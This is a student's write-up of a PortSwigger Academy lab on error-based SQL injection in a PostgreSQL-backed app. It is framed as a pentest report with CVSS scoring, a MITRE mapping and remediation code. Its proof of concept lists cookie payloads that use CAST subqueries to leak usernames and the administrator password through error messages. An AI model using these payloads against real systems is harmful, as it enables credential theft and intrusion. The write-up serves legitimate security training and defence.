



# 13-sqli-visible-error-based


---

## Table of Contents

1. [Overview](#overview)
2. [Scope and Objectives](#scope-and-objectives)
3. [Methodology](#methodology)
4. [Findings](#findings)
5. [Risk Summary](#risk-summary)
6. [Attack Chain](#attack-chain)
7. [Tools and Environment](#tools-and-environment)
8. [Evidence](#evidence)
9. [Remediation Strategy](#remediation-strategy)
10. [Lessons Learned](#lessons-learned)
11. [References](#references)
12. [Author](#author)

---

## Overview

This writeup documents the exploitation of a visible error-based SQL injection vulnerability in PortSwigger Web Security Academy Lab 12 (PRACTITIONER tier). The target application reflects verbose database error messages to the HTTP response, enabling out-of-band data exfiltration via type-casting errors.

The injection point resides in the `TrackingId` cookie, which is directly concatenated into a backend SQL query without sanitisation. By leveraging PostgreSQL's `CAST()` function to coerce string data into an integer type, the database raises a runtime error that leaks query result values in the error message body. The administrator account password was extracted and used to authenticate to the application.

Exploitation required no authentication, no special tooling beyond Burp Suite Repeater, and zero interaction from a legitimate user — consistent with an unauthenticated, remotely exploitable vulnerability at maximum severity.

---

## Scope and Objectives

| Item            | Detail                                                                                        |
| --------------- | --------------------------------------------------------------------------------------------- |
| Target          | PortSwigger Web Security Academy Lab — Visible Error-Based SQL Injection                      |
| Environment     | Isolated, Anthropic-sandboxed lab instance (authorized)                                       |
| Injection Point | `TrackingId` cookie — `GET /login`                                                            |
| Backend DBMS    | PostgreSQL                                                                                    |
| Objective       | Extract the administrator password from the `users` table and authenticate to the application |
| Out of Scope    | Any production system, lateral movement, persistence mechanisms                               |
| Authorization   | PortSwigger Web Security Academy authorized training environment                              |

---

## Methodology

This engagement followed the **OWASP Testing Guide v4.2** (OTG-INPVAL-005) and **PTES Technical Guidelines** for SQL injection testing.

**Phase 1 — Injection Point Discovery**
Identify all parameters reflected in backend queries, including non-standard locations such as cookies and HTTP headers.

**Phase 2 — Error Condition Triggering**
Append syntactically invalid input (single quote `'`) to confirm query context and determine whether error messages are verbose.

**Phase 3 — Query Inference**
Reconstruct the server-side SQL structure from error messages. Confirm comment sequences (`--`) neutralise trailing query syntax.

**Phase 4 — Data Extraction via CAST Coercion**
Use PostgreSQL's `CAST((subquery) AS int)` pattern to force a type conversion error that leaks the subquery return value in the error text.

**Phase 5 — Targeted Credential Extraction**
Pivot from `CAST((SELECT 1) AS int)` to `CAST((SELECT password FROM users LIMIT 1) AS int)`, resolving character-limit constraints by removing the original `TrackingId` value.

**Phase 6 — Authentication**
Use the leaked plaintext password to authenticate to the application as `administrator`.

---

## Findings

### FINDING-001 — Visible Error-Based SQL Injection in TrackingId Cookie

| Field              | Detail                                                                      |
| ------------------ | --------------------------------------------------------------------------- |
| ID                 | FINDING-001                                                                 |
| Severity           | [CRITICAL]                                                                  |
| CVSS v3.1 Score    | 9.8                                                                         |
| CVSS Vector        | `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H`                              |
| CWE                | CWE-89 — Improper Neutralisation of Special Elements Used in an SQL Command |
| OWASP 2021         | A03:2021 — Injection                                                        |
| MITRE ATT&CK       | T1190 — Exploit Public-Facing Application                                   |
| Affected Component | `TrackingId` cookie, `GET /login` endpoint                                  |
| DBMS               | PostgreSQL                                                                  |

**Description**

The application passes the `TrackingId` cookie value directly into a SQL `SELECT` query without parameterisation or escaping. Database error messages are reflected verbatim in the HTTP response body, allowing an attacker to extract arbitrary data by engineering type-mismatch errors.

The reconstructed server-side query structure:

```sql
SELECT * FROM tracking WHERE id = '<TrackingId value>'
```

**Technical Impact**

- Full read access to any table accessible by the database session user
- Extraction of plaintext credentials from the `users` table
- Authentication bypass for privileged accounts
- Potential for further exploitation if the DB user holds write or execute privileges

**Business Impact**

- Complete compromise of all user accounts stored in the database
- Regulatory exposure under GDPR and Ghana's Data Protection Act 2012 for credential disclosure
- Reputational and legal liability arising from unauthenticated remote exploitation
- No user interaction required — exploitable by an automated script in a single request cycle

**Proof of Concept**

Step 1 — Trigger a syntax error to confirm injection context:

```
Cookie: TrackingId=Sn7wKxaTF0ILff4i'
```

Response:

```
Unterminated string literal started at position 52 in SQL SELECT * FROM tracking WHERE id = 'Sn7wKxaTF0ILff4i'. Expected char
```

Step 2 — Neutralise trailing query syntax with comment sequence:

```
Cookie: TrackingId=Sn7wKxaTF0ILff4i'--
```

Step 3 — Inject a CAST subquery to trigger a type error:

```
Cookie: TrackingId=ogAZZfxtOKUELbuJ' AND 1=CAST((SELECT 1) AS int)--
```

Step 4 — Extract the first username via type coercion:

```
Cookie: TrackingId=' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)--
```

Response:

```
ERROR: invalid input syntax for type integer: "administrator"
```

Step 5 — Extract the administrator password:

```
Cookie: TrackingId=' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--
```

Response:

```
ERROR: invalid input syntax for type integer: "lzrqylx03qgcaij442xh"
```

**Reproduction Steps**

1. Intercept a `GET /login` request in Burp Suite Repeater.
2. Modify the `TrackingId` cookie value per the payloads above.
3. Observe error messages in the rendered response.
4. Recover the administrator password from the final error message.
5. Navigate to `/login` and authenticate with `administrator` / `<leaked_password>`.

---

## Risk Summary

| ID          | Title                                         | Severity   | CVSS v3.1 | OWASP Category | Priority    |
| ----------- | --------------------------------------------- | ---------- | --------- | -------------- | ----------- |
| FINDING-001 | Visible Error-Based SQLi in TrackingId Cookie | [CRITICAL] | 9.8       | A03 Injection  | [IMMEDIATE] |

---

## Attack Chain

```
[1] Unauthenticated HTTP Request
        |
        v
[2] Single Quote Injected into TrackingId Cookie
        |
        v
[3] Verbose PostgreSQL Error Returned in Response Body
        |
        v
[4] CAST((SELECT ...) AS int) Coercion Forces Type Error
        |
        v
[5] Database Leaks username='administrator' in Error Message
        |
        v
[6] Database Leaks password='lzrqylx03qgcaij442xh' in Error Message
        |
        v
[7] Attacker Authenticates as administrator — Lab Solved
```

MITRE ATT&CK Mapping:

| Tactic            | Technique                                    | ID    |
| ----------------- | -------------------------------------------- | ----- |
| Initial Access    | Exploit Public-Facing Application            | T1190 |
| Credential Access | Unsecured Credentials                        | T1552 |
| Discovery         | System Information Discovery (via DB errors) | T1082 |

---

## Tools and Environment

| Tool                             | Version                             | Purpose                                               |
| -------------------------------- | ----------------------------------- | ----------------------------------------------------- |
| Burp Suite Community Edition     | v2026.3.2                           | HTTP interception and Repeater-based payload delivery |
| Browser                          | Chromium 146 on Kali Linux (VMware) | Lab access and response rendering                     |
| PortSwigger Web Security Academy | —                                   | Authorized target environment                         |

No automated scanners were used. All payloads were crafted and delivered manually via Burp Suite Repeater.

---

## Evidence

### 01 — Single Quote Syntax Error

Injecting a single quote into `TrackingId` causes the backend PostgreSQL query to throw an unterminated string literal error. The error message exposes the raw SQL query structure, confirming unsanitised string concatenation.



_Figure 1: Verbose PostgreSQL error triggered by a single-quote injection in the TrackingId cookie, confirming the injection context and exposing the underlying query structure._

---

### 02 — Password Leaked via CAST Type Error

Substituting the SELECT target from `username` to `password` with `LIMIT 1` causes PostgreSQL to coerce the plaintext password string into an integer, raising a type error that includes the password value in the error message.



_Figure 2: CAST-based type coercion error leaking the administrator account password (`lzrqylx03qgcaij442xh`) in the PostgreSQL error message._

---

### 03 — Lab Solved — Authenticated as Administrator

Successful authentication to the application as `administrator` using the extracted plaintext password resolves the lab objective.



_Figure 3: Lab marked as solved following successful authentication with the exfiltrated administrator credentials._

---

## Remediation Strategy

### R-001 — Parameterised Queries (Prepared Statements) [IMMEDIATE]

Replace all string-concatenated SQL queries with parameterised statements. This eliminates the injection vector entirely regardless of input content.

**Vulnerable pattern:**

```python
# Direct string concatenation — never acceptable
query = f"SELECT * FROM tracking WHERE id = '{tracking_id}'"
cursor.execute(query)
```

**Remediated pattern (Python / psycopg2):**

```python
query = "SELECT * FROM tracking WHERE id = %s"
cursor.execute(query, (tracking_id,))
```

**Remediated pattern (Django ORM):**

```python
# ORM queries are parameterised by default
Tracking.objects.get(id=tracking_id)
```

### R-002 — Suppress Verbose Database Error Messages [IMMEDIATE]

Database error messages must never be reflected in HTTP responses in any environment. Configure the application to return a generic error page and log the full error server-side only.

```python
# Django settings — production
DEBUG = False
ALLOWED_HOSTS = ['yourdomain.com']
```

For custom error handling:

```python
try:
    cursor.execute(query, params)
except Exception:
    logger.exception("Database error — request_id=%s", request_id)
    return HttpResponse("An error occurred.", status=500)
```

### R-003 — Principle of Least Privilege for Database Accounts [SHORT-TERM]

The application database user should hold only the minimum privileges required. Tracking queries require `SELECT` on a single table — not `SELECT` on `users` or any other sensitive table.

```sql
-- Create a restricted application user
CREATE USER app_tracking_user WITH PASSWORD 'strong_password';
GRANT SELECT ON tracking TO app_tracking_user;
-- No access to users, credentials, or any other table
```

### R-004 — Web Application Firewall (WAF) — Defence in Depth [SHORT-TERM]

Deploy a WAF rule set to detect and block common SQL injection patterns in cookies and other non-standard input vectors. This is a defence-in-depth control, not a substitute for parameterised queries.

### Retest Criteria

The finding is considered remediated when:

- Injecting `'` into the `TrackingId` cookie returns a generic 500 error page with no SQL content
- `CAST((SELECT password FROM users LIMIT 1) AS int)` returns no database output
- A DAST scan against the endpoint reports no SQLi findings

---

## Lessons Learned

**1. Injection surfaces extend beyond visible input fields.**
The `TrackingId` cookie is not exposed to users in any UI element. Relying on obscurity for security is not a control — all parameters reaching the database must be treated as untrusted input.

**2. Verbose error messages convert injection into trivial exfiltration.**
Without the reflected error, this vulnerability would require blind boolean or time-based techniques. Suppressing errors does not fix the injection but significantly raises exploitation difficulty and detection probability.

**3. Character-limit constraints can be bypassed by controlling input size.**
The original `TrackingId` value consumed payload budget and truncated the injected comment sequence. Clearing the cookie value to a minimal prefix (`'`) freed space for the full CAST payload. Input length limits applied server-side to cookies are not a security control.

**4. CAST-based error injection is PostgreSQL-specific but conceptually portable.**
MySQL uses `EXTRACTVALUE()` or `UPDATEXML()` for error-based extraction. Oracle uses `UTL_HTTP` or invalid type conversions. Understanding the DBMS-specific error injection primitives is a prerequisite for reliable exploitation across targets.

---

## References

| Resource                                   | URL                                                                                            |
| ------------------------------------------ | ---------------------------------------------------------------------------------------------- |
| PortSwigger — Error-Based SQL Injection    | https://portswigger.net/web-security/sql-injection/blind/lab-sql-injection-visible-error-based |
| OWASP Testing Guide v4.2 — OTG-INPVAL-005  | https://owasp.org/www-project-web-security-testing-guide/                                      |
| CWE-89 — SQL Injection                     | https://cwe.mitre.org/data/definitions/89.html                                                 |
| MITRE ATT&CK — T1190                       | https://attack.mitre.org/techniques/T1190/                                                     |
| NIST NVD — CVSS v3.1 Calculator            | https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator                                           |
| PostgreSQL — Error Handling                | https://www.postgresql.org/docs/current/errcodes-appendix.html                                 |
| OWASP SQL Injection Prevention Cheat Sheet | https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html       |

---

## Author

**Michael Asante Anim** | `0x1aerixis`
BSc Cyber Security — University of Mines and Technology (UMaT), Tarkwa, Ghana

[](https://github.com/anim-michael-asante)
[](https://linkedin.com/in/michael-asante-anim)
[](https://tryhackme.com/p/0x1aerixis)
[](https://x.com/0x1aerixis)

> _"Built in the lab. Documented for the field."_

---

> **Disclaimer:** All work documented in this repository was conducted in an authorized, isolated
> PortSwigger Web Security Academy lab environment. No unauthorized systems were accessed.
> This writeup is intended for educational and portfolio purposes only.
